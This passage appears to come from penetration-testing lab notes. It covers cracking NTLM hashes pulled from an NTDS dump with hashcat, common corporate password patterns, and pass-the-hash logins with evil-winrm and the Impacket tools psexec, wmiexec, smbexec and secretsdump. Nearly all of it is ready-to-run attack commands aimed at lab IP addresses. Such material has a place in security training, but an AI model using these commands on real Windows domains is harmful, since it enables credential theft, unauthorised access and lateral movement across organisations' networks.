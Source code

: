 #### Bulk Hash Cracking
```bash
# Extract all NT hashes to file
grep ":::" ntds_dump.txt | cut -d: -f4 > all_nt_hashes.txt

# Crack all hashes
hashcat -m 1000 all_nt_hashes.txt /usr/share/wordlists/rockyou.txt

# Create hash:username mapping for context
grep ":::" ntds_dump.txt | awk -F: '{print $4":"$1}' > hash_to_user.txt
```

### Password Pattern Analysis
```bash
# Common corporate password patterns to look for:
# - CompanyName + Year (Inlanefreight2024!)
# - Season + Year (Summer2024!, Spring2024!)
# - Password + Number (Password1, Password123!)
# - Welcome + Year (Welcome2024!)
# - Department + Year (Finance2024!, IT2024!)
```

## ⚔️ Pass-the-Hash (PtH) Attacks

### Understanding Pass-the-Hash
When hash cracking fails, **Pass-the-Hash** attacks allow authentication using **NTLM hashes directly**:
- **No plaintext password needed**
- **Uses NTLM authentication protocol**
- **Format**: `username:hash` instead of `username:password`

### Evil-WinRM Pass-the-Hash
```bash
# Connect using NT hash instead of password
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

# Connect to different target with same hash
evil-winrm -i 10.129.201.58 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

### Impacket Pass-the-Hash Tools
```bash
# psexec with hash
python3 psexec.py -hashes :64f12cddaa88057e06a81b54e73b949b Administrator@10.129.201.57

# wmiexec with hash
python3 wmiexec.py -hashes :64f12cddaa88057e06a81b54e73b949b Administrator@10.129.201.57

# smbexec with hash
python3 smbexec.py -hashes :64f12cddaa88057e06a81b54e73b949b Administrator@10.129.201.57

# secretsdump with hash for lateral movement
python3 secretsdump.py -hashes :64f12cddaa88057e06a81b54e73b949b Administrator@10.129.201.58
```
